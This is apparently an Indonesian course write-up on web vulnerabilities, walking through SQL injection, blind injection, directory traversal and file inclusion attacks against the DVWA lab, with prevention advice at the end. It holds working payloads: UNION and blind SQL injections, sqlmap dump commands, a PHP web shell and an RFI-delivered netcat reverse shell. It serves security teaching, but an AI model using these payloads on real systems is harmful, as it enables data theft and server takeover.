


## Daftar Isi Pembahasan Hari Pertama

- [SQL Injection](#sql-injection)
- [Directory Traversal Vulnerabilities](#directory-traversal-vulnerabilities)
- [File Inclusion Vulnerabilities](#file-inclusion-vulnerabilities)

## SQL Injection

### Deskripsi
Suatu serangan SQL Injection terdiri dari penyisipan atau injeksi dari SQL query melalui input data dari klien ke aplikasi. Input data biasanya merujuk pada informasi yang diberikan oleh user melalui formulir web, parameter URL, atau inputan lainnya. 

### Dampak
Jika serangan SQL Injection ini berhasil, penyerang dapat memengaruhi atau memanipulasi operasi basis data yang dilakukan oleh aplikasi. Hal ini dapat mengakibatkan akses tidak sah ke data sensitif, perusakan atau modifikasi data, dan menjalankan eksekusi perintah SQL yang berpotensi merusak. 

### Contoh SQL Injection

``` Volt
”SELECT * FROM Users WHERE user='" . $user . "'" and pass='" . $pass . “’”
```
Syntax tersebut digunakan untuk melakukan query ke sebuah tabel Users dalam suatu database dengan tujuan untuk mengambil data pengguna yang cocokd engan kombinasi nama pengguna (user) dan kata sandi (pass) yang diberikan. 

### Hal-hal yang dapat dilakukan oleh penyerang dengan SQL Injection
1. Membaca data sensitif
   * Jika SQL Injection attack berhasil, penyerang dapat membaca atau mengakses data sensitif yang tersimpan dalam database
   * Data sensitif yang dapat diakses yaitu informasi pribadi pengguna seperti nama, alamat email, kata sandi terenkripsi, nomor kartu kredit, dan lain-lain.
2. Memodifikasi data
   * Penyerang dapat memanipulasi data yang ada dalam database dengan menyisipkan perintah SQL yang sesuai. Mereka dapat mengubah atau bahkan menghapus data yang ada dalam database. 
3. Eksekusi perintah tingkat admin di basis data
   * Serangan SQL Injection dapat memberikan penyerang berupa akses untuk menjalankan perintah SQL yang memiliki hak istimewa tingkat admin atau mengendalikan  basis data. 
4. Eksekusi perintah shell
   * Dalam beberapa kasus, jika sistem basis data dikonfigurasi dengan cara yang tidak aman atau jika penyerang memiliki pengetahuan tambahan tentang konfigurasi server, mereka dapat mencoba menjalankan perintah shell atau perintah sistem operasi yang dapat memberikan akses ke sistem yang lebih luas.
5. Membaca files
   * Dalam beberapa kasus, serangan SQL Injection dapat memungkinkan penyerang untuk membaca file di server yang mungkin berisi informasi sensitif, seperti file konfigurasi, file log, atau bahkan kode sumber aplikasi. 

### Cara identifikasi kerentanan web terhadap SQL Injection
1. Mencari input atau parameter apapun yang mungkin berinteraksi dengan basis data, termasuk header HTTP dan cookie:
   * Disini, kita harus melihat semua input dan parameter yang digunakan dalam aplikasi web, termasuk formulir, URL, parameter permintaan HTTP, header HTTP, dan data cookie
   * Kita juga harus perhatikan input apapun yang digunakan dalam query SQL atau operasi basis data
2. Memasukkan quotes atau semicolons sebagai nilainya
   * Penyerang sering mencoba memasukkan karakter seperti tanda kutip tunggal ('), tanda kutip ganda ("), atau titik koma (;) ke dalam input untuk melihat apakah aplikasi merespons kesalahan atau perilaku yang tidak diharapkan. Jika aplikasi web memberikan pesan kesalahan atau tidak berfungsi dengan benar saat karakter dimasukkan, maka termasuk indikasi kerentanan SQL Injection
3. Menggunakan tanda komentar di akhir jika diperlukan (#, --, /**/)
   * Penyerang sering mencoba mengakhiri pernyataan SQL yang sah dengan tanda komentar seperti "#" (Untuk MySQL), "--" (untuk banyak basis data), "/**/" (Untuk beberapa basis data)
   * Hal tersebut bertujuan untuk menghentikan kueri yang sah dan menyisipkan perintah SQL yang berbahaya
4. Mencari pesan error
   * Kesalahan yang diberikan oleh aplikasi web dapat memberikan petunjuk tentang kerentanan SQL Injection.
  
#### Pesan dari Error messages yang dapat kita ambil


* Masing-masing DBMS (Database Management System) memiliki error messages yang unik
* Mengenal DBMS yang digunakan membuat penyerang memiliki kemampuan untuk menyesuaikan serangan secara khusus ke DBMS tersebut.
* Cara mencegah serangan ke DBMS dari error messages:
  - Menyembunyikan error messages dari users

### Serangan di DVWA dengan security level low

> Disini, kita gunakan OS Kali Linux
> Task: Curi password dari users yang terdapat dalam database DVWA dengan menggunakan sql. Total users dalam database adalah 5 users dengan id dari 1 hingga 5.

Cara: 
1. Kita aktifkan dulu `apache2` dan `mysql` pada kali linux  
      

2. Kita masuk ke website dvwa dengan url `http://127.0.0.1/DVWA/login.php`  
    

3. Kita lakukan login dengan `username: admin` dan `password: password`  

    

4. Kita set `security level: low`  

   

5. Kita masuk ke tab `SQL Injection`  

   

6. Saat kita masukkan salah satu id, misal `id = 1`, maka akan terlihat seperti ini:  
    

7. Kita bedah source codenya:  

   

* Dari kode tersebut, apapun yang kita inputkan akan masuk menjadi query dan akan diproses. Sebab, isi dari variabel query:  

  ```
  $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
  ```
* Untuk mendapatkan password, kita gunakan syntax `union` untuk mengambil password dari `id = 1`  

  ``` SELECT first_name, last_name FROM users WHERE user_id = '1' UNION SELECT password, null FROM users -- '; ```  

* Setelah itu, kita masukkan ke text input `User ID`  
  `1' UNION SELECT password, null FROM users -- '; ``` `  

  Disini, attacker memasukkan syntax tersembunyi yang dibuat menjadi comment yaitu `' UNION SELECT password, null FROM users -- '; `` `. Sehingga, apabila web rentan, maka union tidak akan terdeteksi.  

8. Hasil serangan:  
   

9. Password tersebut dibuat dengan hashcode sehingga kita dapat generate hashcode tersebut di `crackstation.net`  

    

### Serangan di DVWA dengan security level medium

> Task: sama seperti pada serangan low

Cara:
1. Ubah difficulty serangan menjadi medium pada tab `DVWA Security`  


2. Buka tab `SQL Injection` dan lihat source nya  
>  
>Dapat dilihat bahwa pada bagian pengeksekusian query hampir sama dengan diff low hanya saja pada `$id` tidak ada tanda petik serta pengiriman data menggunakan _POST sehingga query yang akan di inject akan sedikit berbeda

3. Query yang akan di inject berupa:  

```
1 UNION SELECT first_name, password FROM users
```
>karena menggunakan UNION, maka jumlah kolom yang ditampilkan harus sama dengan query sebelumnya  
>
>query asli: first_name, last_name  
>
>query injeksi: first_name, password  

4. Injek query yang sudah disiapkan melalui `inspect`  
>Kenapa menggunakan `inspect`? karena field id berupa optian bukan textbox sehingga tidak dapat mengetik secara langsung  

>  
>tahapan inspect:
>
>klik kanan, pilih inspect, klik icon kotak-kursor pada bagian pojok kiri atas jendela inspect, lalu klik field option id  

>  
>letakkan query kedalam value pada salah satu tag option

5. Tekan tombol Submit dan hasilnya akan keluar  

>  
>hasil injeksi dapat dilihat pada baris data setelah baris pertama (admin/admin)
>
>first_name = first_name
>surname = password

6. Hash yang sudah didapatkan dapat didecrypt seperti pada diff low untuk mendapatkan password sebenarnya  


## Blind SQL Injection

Blind SQL Injection adalah jenis serangan SQL Injection yang mengajukan pertanyaan-pertanyaan true or false kepada database dan menentukan jawabannya berdasarkan respons aplikasi.  

Berikut adalah beberapa metode dari Blind SQL Injection:  

1. Union Exploitation
2. Boolean Exploitation
3. Time Delay Exploitation
4. Error-based Exploitation
5. Out of Band Exploitation
6. Stored Procedure Injection

### Union Exploitation  

Operasi UNION digunakan dalam SQL Injection untuk menggabungkan hasil dari dua atau lebih query SQL dalam satu hasil yang dikembalikan oleh aplikasi web. Dengan memasukkan UNION SQL yang benar, penyerang dapat mencoba menggabungkan hasil dari query yang dieksekusi dengan hasil dari query tambahan yang mereka tentukan. Hasilnya adalah penyerang dapat melihat data yang seharusnya tidak mereka akses, seperti informasi pengguna, kata sandi, atau data sensitif lainnya yang disimpan dalam database.

Contoh query:  

``` sql
SELECT Name, Phone, Address FROM Users WHERE Id=$id

-- Set $id to:
-- 1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable
```

Perlu diingat bahwa kata kunci 'ALL' digunakan untuk menggantikan 'DISTINCT' dan bahwa jumlah kolom dalam kedua bagian query harus sama.  

### Boolean Exploitation

Ekploitasi berbasis boolean mengacu pada penggunaan eksploitasi atau manipulasi operasi logika boolean dalam sebuah aplikasi atau sistem.

Contoh query:

```sql
SELECT field1, field2, field3 FROM Users WHERE Id='$Id’

-- Set $id to:
-- 1' AND '1'='2
-- Or,
-- 1' AND ASCII(SUBSTRING(username,1,1))=97 AND '1'='1
```

### Time-based SQL Injection

SQL Injection jenis ini dilakukan dengan mengirimkan input berbahaya ke aplikasi web untuk mencari tahu informasi tentang basis data berdasarkan waktu yang diperlukan untuk merespons permintaan. Tujuannya adalah untuk mengungkapkan informasi rahasia dari basis data secara bertahap, terutama jika aplikasi tidak memberikan respons langsung yang menunjukkan adanya kerentanan SQL Injection.

Contoh query:

``` sql
SELECT * FROM products WHERE id_product=$id_product

-- Set $id_product to:
-- 10 AND IF(version() like ‘5%’, sleep(10), ‘false’))--
```

Lantas, bagaimana cara mengidentifikasi kelemahan SQL Injection? Terdapat hal-hal yang dapat dilakukan, di antaranya mencari parameter, cookies, maupun header HTML yang dapat diedit. Selain itu, dapat digunakan _tool_ seperti SQLMap.

Berikut adalah beberapa pencegahan SQL Injection.

1. Hindari input oleh pengguna.

``` php
$id = $_POST[ 'id' ];

$id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

$query = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
```

2. Gunakan statements yang telah disiapkan sebelumnya.

``` php
// was a number entered?
if(is_numeric( $id )) {
  // check the database
  $data = $db->prepare( 'SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;' );
  $data->bindParam( ':id', $id, PD0::PARAM_INT );
  $data->execute();
  $row = $data->fetch();

  // make sure only 1 result is returned
  if( $data->rowCount() == 1 ) {
    // get values
    $first = $row[ 'first_name' ];
    $last = $row[ 'last_name' ];

    // feedback for end user
    echo "<pre>ID: {$id}<br />First name: {$first)<br />Surname: {$last}</pre>";
  }
}
```

``` php
$someVariable = Input::get("some_variable");

$results = DB::select( DB::raw("SELECT * FROM some_table WHERE some_col = :somevariable"), array('
  somevariable' => $someVariable,
 ));
```

3. Gunakan _stored procedures_.
4. Pastikan pengguna database memiliki _privilege requirement_ seminimum mungkin.
5. Gunakan _whitelist_ untuk validasi input.

### Serangan di DVWA dengan security level low

> Disini, kita gunakan OS Kali Linux
> Task: Menemukan kode yang tepat sesuai dengan versi dari sql database software melalui blind sql attack. Sebab, biasanya kalau syntax tidak sesuai akan muncul eror

Cara:
1. Kita aktifkan dulu `apache2` dan `mysql` pada kali linux  
      

2. Kita masuk ke website dvwa dengan url `http://127.0.0.1/DVWA/login.php`  
      

3. Kita lakukan login dengan `username: admin` dan `password: password`  

      

4. Kita set `security level: low`  

      


5. Kita masuk ke tab `SQL Injection (Blind)`  

     

6. Kita perhatikan source codenya:  

     


* Dari kode tersebut, setelah kita menekan tombol `Submit` maka akan mengambil `ID` dari method `GET` lalu akan mengeksekusi query yang menampilkan `first_name` dan `last_name`.

7. Setelah kita menekan tombol `Submit`, maka alamat url menjadi:  
    > http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit#

8. Kita akan melakukan beberapa modifikasi dari alamat url tersebut:
   * Kita ingin cek apakah terdapat `User ID: 1` pada database tersebut dengan cara:
     > http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/?id=1' and 1=1 -- -'7&Submit=Submit#  
         Hasilnya:  
           

     > Url tersebut berarti id=1 dapat dicari apabila nilai 1=1
     > Apabila nilai 1=0, maka hasilnya salah. Hal tersebut, dibuktikan dengan:  
         
   * Kita ingin mengetahui kata pertama dari data di database itu. Bisa dengan cara modifikasi pada inputan `User ID`, seperti ini:

     > 1' and (select substring(database(), 1, 1))="a" -- -'      
             
         Maka hasilnya:    
           

     > Lalu saat kita ubah jadi huruf lain, dengan:  
         1' and (select substring(database(), 1, 1))="d" -- -'    
             
         Maka hasilnya:    
              
         Artinya: kata pertama dari id=1 pada database adalah `d`  
    * Kita ingin mengetahui kata kedua dari data di database. Bisa dengan cara modifikasi pada inputan `User ID`, seperti ini:   
      > 1' and (select substring(database(), 2, 1))="a" -- -'  
            
      > Kita tebak dari a hingga z, mana huruf yang cocok. Jika cocok, maka huruf tersebut merupakan kata kedua dari User ID tersebut. 

### Serangan di DVWA dengan security level medium
1. Ubah difficulty serangan menjadi medium pada tab `DVWA Security`  


2. Buka tab `SQL Injection (Blind)` kemudian inspect, pilih tab network, lalu klik submit  


3. Pilih data teratas dan catat cookies dan raw requestnya
>Pilih tab `Cookies` pada bagian bawah untuk melihat cookies yang ada  
>

>Pilih tab `Request` pada bagian bawah lalu tekan togle `Raw` untuk melihat raw request yang dikirimkan  
>

>catat dengan format yang sesuai pada gambar dibawah  
>

4. Buka terminal dan jalankan command sqlmap berikut:
```
sqlmap -u "[url]" --cookie="[cookies]" --data="[request]" --dbms --batch
```
>Sesuaikan command dengan data yang didapatkan sebelumnya
>
>`[url]` = url dari laman DVWA yang saat ini dibuka 
>
>`[cookies]` = cookies yang telah di catat sesuai format
>
>`[request]` = raw request yang telah dicatat sesuai format 
  

Didapatkan daftar database yang ada pada server
```
[*] dvwa
[*] information_schema
```

5. Ubah command sqlmap sebelumnya menjadi:
```
sqlmap -u "[url]" --cookie="[cookies]" --data="[request]" -D dvwa --tables --batch
```
>command di atas akan menampilkan tabel yang ada dalam database dvwa  


6. Ubah lagi command sqlmap sebelumnya untuk menampilkan data dalam tabel users
```
sqlmap -u "[url]" --cookie="[cookies]" --data="[request]" -D dvwa -T users --dump --batch
```
>--dump digunakan untuk menampilkan semua data didalam sebuah tabel  


>karena enkripsi password yang sederhana menggunakan `md5`, sqlmap secara otomatis mendekripsi semua password yang ada

## Directory Traversal Vulnerabilities

### Deskripsi

Directory Traversal merupakan kerentanan dimana aplikasi web memperbolehkan client untuk mengakses file yang tidak seharusnya diakses dan tidak sewajarnya diakses melalui interface web diluar root directory website. Sebagai contoh, client dapat mengakses informsi/dokumen pada server yang seharusnya tidak ditampilkan di website.

### Contoh:

Kode php dan html dibawah, berfungsi sebagai pengubah warna background dari website kita dengan memberikan kode php berdasarkan warna yang dipilih pada parameter COLOR di GET request.
<br>
<br>


<br>
<br>

Menurut anda, apa yang akan anda lakukan sebagai penyerang untuk dapat mengakses file lain yang ada pada server?

### Cara Mengidentifikasi Kerentanan Directory Traversal

- Identifikasi request parameter yang dapat dimanipulasi
- Lakukan percobaan dengan memasukkan payload supaya website memuat informasi yang tidak seharusnya bisa diakses
- Lihat error

### Contoh serangan Directory Traversal

Input yang tidak tersanitasi dan cara menampilkan file dengan cara yang kurang baik dapat menyebabkan munculnya kelemahan Directory Traversal, sebagai contoh pada kasus di DVWA berikut


bila kita lihat dari kode sumbernya:


Input parameter 'page' dari user tidak disanitasi dengan baik, sehingga apabila kita memasukkan input seperti:

```
../../../../../etc/passwd
```

Akan menampilkan file seperti berikut:


File tersebut menampilkan siapa saja user yang beroperasi dalam sistem, terlihat tidak terlalu berbahaya bukan? Bagaimana apabila kasusnya kita ganti menjadi seperti ini:

- Bapak / Ibu menyimpan file berupa catatan pribadi perusahaan atau informasi rahasia seperti pada sebuah file email_pass.txt di server seperti berikut:

```
user                 pass
admin@gmail.com   Djum4nt0sup3r
```

- Apabila hacker bisa menemukan lokasi dari file tersebut dan menggunakan cara diatas

```
/var/www/dvwa/email_pass.txt
```
Haislnya bisa seperti berikut:


## File Inclusion Vulnerabilities

### Deskripsi

File Inclusion merupakan kerentanan dimana user dapat mengeksekusi konten pada suatu file di website. File ini seharusnya tidak dapat dieksekusi secara bebas oleh user, namun dikarenakan kurang baiknya implementasi keamanan pada website, user jadi bisa mengeksekusi file tersebut.

### Jenis-Jenis Kerentanan File Inclusion

- [Local File Inclusion](#local-file-inclusion)
- [Remote File Inclusion](#remote-file-inclusion)
<br>
<br>


### Local File Inclusion

Local File Inclusion adalah kelemahan dimana user dapat mengeksekusi kontek file yang terletak pada server yang sama dengan website. Biasanya pada kasus LFI, seorang penyerang berhasil memasukkan sebuah file atau kode berbahaya melalui server atau website, lalu dengan memanfaatkan kerentanan File Inclusion, penyerang dapat mengeksekusi file tersebut pada website. Dampak pada sisi user yang dijadikan target adalah, penyerang bisa saja mengarahkan user ke lokasi file berbahaya yang telah disiapkan untuk menyerang user pada server, dan ketika user mengakses lokasi tersebut, user secara tidak sadar telah mengeksekusi file berbahaya yang telah disiapkan. Pemanfaatan yang paling umum terjadi pada kerentanan LFI adalah penyerang dapat menyiapkan file yang ketika diakses oleh penyerang dan sever mengeksekusi file tersebut, penyerang akan mendapatkan akses terhadap server atau bisa disebut <a href="https://www.getastra.com/blog/911/php-backdoor-web-shell-removal/"><i>web shells</i></a>.


#### Web Shells

Sederhanya, <i>Web Shell</i> merupakan kode yang dibuat oleh penyerang untuk dijadikan backdoor pada server. Dengan <i>Web Shell</i>, penyerang dapat secara aktif melakukan eksekusi command server melalui website, memberikan akses jarak jauh, melakukan pivoting, menjadikan server sebagai zombie, dan tidak menutup kemungkinan meningkatkan hak akses penyerang ke tingkat yang lebih tinggi (<a href="https://www.monitorteknologi.com/apa-itu-privilege-escalation/"><i>privilege escalation</i></a>).

Kegunaan Web Shell:

1. Persistent Remote Access
2. Privilege escalation
3. Pivoting and launching attacks
4. Turning server to a zombie
5. Command Execution

Contoh Web Shell:

1. <a href="https://github.com/PinoyWH1Z/C99Shell-PHP7">C99 Shell</a>
2. <a href="https://www.kali.org/tools/weevely/">Weevely</a>

### Bagaimana Cara Mengeksekusi Kode Apabila Penyerang Tidak Dapat Memasukkan File Ke Dalam Server?

Terdapat beberapa cara untuk melakukan eksploitasi LFI apabila penyerang tidak dapat memasukkan file ke dalam server, beberapa di antaranya adalah:

#### Kontaminasi Log File
1. Connect ke Webserver menggunakan netcat
2. Kirim Payload berikut
```php
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```
3. Execute the log file

#### Menggunakan PHP Wrappers
1. Format input parameter
```php
data:text/plain,<?php echo shell_exec(“${payload}”) ?>
```
2. Ganti <b>${payload}</b> dengan command yang diperlukan

### Remote File Inclusion

Mirip dengan Local File Inclusion, bedanya Remote File Inclusion berarti penyerang dapat membuat website mengeksekusi file yang telah disiapkan oleh penyerang pada server penyerang, sehingga penyerang tidak perlu memasukkan file berbahaya tersebut ke server target.


### Demo Kerentanan File Inclusion
Pada kasus ini, anggap seorang hacker telah berhasil memasukkan file berbahaya kedalam sistem, baik melalui fitur dalam website atau menggunakan cara lain. Script yang dimasukkan oleh si hacker merupakan file bernama **malscript.php** yang berisi kode berikut:

```php
<?php system($_GET['cmd']);?>
```
Kode ini akan melakukan perintah server sesuai dengan masukan yang diberikan pada parameter cmd, berikut step by stepnya:

- Buka DVWA 
- Pilih section file inclusion

   <!-- FILE INCLUSION SECTION IN DVWA IMAGE --!>

- Lihat pada URL
```
http://ip_mesin/dvwa/vulnerabilities/fi/?page=include.php
```

#### LOCAL FILE INCLUSION PAYLOAD
- Dengan memanfaatkan kelemahan Directory traversal, masukkan payload berikut sebagai value dari pada parameter **?page=**
```
../../../../../var/www/dvwa/malscript.php
```
dan tambahkan paramter cmd disebelahnya seperti berikut:
```
&cmd=ls
```
Sehingga pada url menajdi seperti berikut
```
?page=../../../../../var/www/dvwa/malscript.php&cmd=ls
```
- Klik enter
- Maka konten dari file akan muncul seperti di bawah


#### REMOTE FILE INCLUSION PAYLOAD

Mirip dengan Local File Inclusion, pada **Remote File Inclusion (RFI)**, file yang ada berasal dari luar server, alias berasal dari server penyerang. Untuk mengetahui apakah RFI bisa terjadi, mirip seperti dengan Local File Inclusion.
Sebagai percobaan, ganti value pada parameter **?page=**, menjadi http://google.com atau http://imdb.com, maka berikut hasil yang akan ditampilkan:


####  Untuk level Medium
Sekarang, ganti level ke level medium dengan cara:
- Masuk ke section DVWA Security
- Lalu ganti kesulitan menjadi medium dan klik submit


- Kembali ke section File Inclusion
- Klik **View Source**
- Berikut merupakan contoh upgrade securitynya


Cara ini masih bisa diBypass dengan cara mengganti **http://**, menjadi hthttp://tp://. Berikut pembuktiannya:

- Ketika menggunakan http://google.com biasa


http://google.com terpotong menjadi google.com, membuat website tidak bisa diakses

- Ketika menggunakan cara lain seperti hthttp://tp://google.com



- Keamanan berhasil dibypass


#### Contoh kejadian dimana penyerang bisa masuk ke dalam server.
Berikut saya memiliki 2 buah IP:

IP server 192.168.111.129
IP penyerang 192.168.111.128

Berikut contoh isi file dalam server:


Dalam server penyerang, telah disiapkan file bernama info.txt untuk masuk kedalam server seperti berikut:

```php
<?php system('nc 192.168.111.128 1234 -e /bin/bash');?>
```
Kode ini memiliki fungsi untuk membuka koneksi dari server ke server penyerang, memberikan akses server kepada penyerang di port 1234.

Penyerang saat ini sedang menunggu koneksi di port 1234


Ketika server memiliki kelemahan File Inclusion, penyerang dapat memasukkan alamat dan file dari penyerang seperti berikut:


Hasilnya seperti berikut:


Penyerang berhasil masuk ke dalam server.


### Cara Mencegah Kerentanan File Inclusion

1. Mematikan fungsi yang berkaitan dengan eksekusi shell seperti eval, shell_exec, system, exec, passthru, dan proc_open.
2. Gunakan escapeshellarg() dan escapeshellcmd() untuk memastikan input yang dimasukkan user tidak dapat dieksekusi di shell.
3. Atur allow_url_include ke "off" apabila tidak dibutuhkan.
4. Lakukan sanitasi pada masukan user.
